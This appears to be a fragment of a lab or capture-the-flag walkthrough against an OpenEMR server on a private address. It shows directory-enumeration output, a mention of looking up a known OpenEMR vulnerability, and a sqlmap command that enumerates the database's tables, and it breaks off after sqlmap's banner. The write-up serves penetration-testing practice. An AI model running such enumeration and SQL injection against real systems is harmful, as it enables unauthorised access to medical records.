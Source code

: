 ~~~term
/common               (Status: 301) [Size: 319] [--> http://192.168.118.132/common/]
/config               (Status: 301) [Size: 319] [--> http://192.168.118.132/config/]
/contrib              (Status: 301) [Size: 320] [--> http://192.168.118.132/contrib/]
/controller.php       (Status: 200) [Size: 37]                                       
/controllers          (Status: 301) [Size: 324] [--> http://192.168.118.132/controllers/]
/custom               (Status: 301) [Size: 319] [--> http://192.168.118.132/custom/]     
/images               (Status: 301) [Size: 319] [--> http://192.168.118.132/images/]     
/index.php            (Status: 302) [Size: 0] [--> interface/login/login.php?site=default]
/index.php            (Status: 302) [Size: 0] [--> interface/login/login.php?site=default]
/interface            (Status: 301) [Size: 322] [--> http://192.168.118.132/interface/]   
/library              (Status: 301) [Size: 320] [--> http://192.168.118.132/library/]     
/LICENSE              (Status: 200) [Size: 35147]                                         
/modules              (Status: 301) [Size: 320] [--> http://192.168.118.132/modules/]     
/portal               (Status: 301) [Size: 319] [--> http://192.168.118.132/portal/]      
/public               (Status: 301) [Size: 319] [--> http://192.168.118.132/public/]      
/server-status        (Status: 403) [Size: 280]                                           
/services             (Status: 301) [Size: 321] [--> http://192.168.118.132/services/]    
/sites                (Status: 301) [Size: 318] [--> http://192.168.118.132/sites/]       
/setup.php            (Status: 200) [Size: 1214]                                          
/sql                  (Status: 301) [Size: 316] [--> http://192.168.118.132/sql/]         
/templates            (Status: 301) [Size: 322] [--> http://192.168.118.132/templates/]   
/tests                (Status: 301) [Size: 318] [--> http://192.168.118.132/tests/]       
/vendor               (Status: 301) [Size: 319] [--> http://192.168.118.132/vendor/]      
/version.php          (Status: 200) [Size: 0]                                             
                                                                                          
===============================================================
2021/04/23 12:59:48 Finished
===============================================================
                                                    
~~~

I navigate to the admin page and get given the version of openEMR. Time to look up the Real World writeup.


![OpenEMR Vuln page](https://i.imgur.com/oKLIY1P.png)

~~~term
                                                                                                                                                                                                                                            
┌──(user㉿kali)-[~]
└─$ sqlmap -r openemr.req --threads=10 -D openemr --tables                                                                                                                                                                              1 ⨯
        ___
       __H__                                                                                                                                                                                                                                
 ___ ___[']_____ ___ ___  {1.5.4#stable}                                                                                                                                                                                                    
|_ -| . [,]     | .'| . |                                                                                                                                                                                                                   
|___|_  [']_|_|_|__,|  _|                                                                                                                                                                                                                   
      |_|V...       |_|   http://sqlmap.org                                                                                                                                                                                                 

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

~~~